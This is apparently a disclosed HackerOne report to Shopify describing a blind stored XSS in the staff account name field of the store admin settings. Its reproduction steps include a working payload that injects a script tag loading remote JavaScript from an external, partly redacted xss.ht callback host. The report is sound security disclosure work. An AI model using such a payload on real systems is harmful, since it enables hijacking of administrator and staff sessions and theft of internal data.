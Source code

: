# Blind Stored XSS Via Staff Name

## Report Details
- **Report ID**: 948929
- **URL**: https://hackerone.com/reports/948929
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-31T23:06:18.152Z
- **Disclosed**: 2020-08-18T19:41:41.906Z

## Reporter
- **Username**: rioncool22
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hey Team, I found blind stored XSS when i add staff name  in https://your-store.myshopify.com/admin/settings/account

Step to reproduce : 
1. Go to https://your-store.myshopify.com/admin/settings/account
2. Add Staff Account 
3. Fill First & Last Name with this payload "><script>$.getScript("//█████████.xss.ht")</script>
4. XSS will be fired in your internal web

You should check the DOM.html guys

## Impact

Stored XSS

## Attachments
No attachments
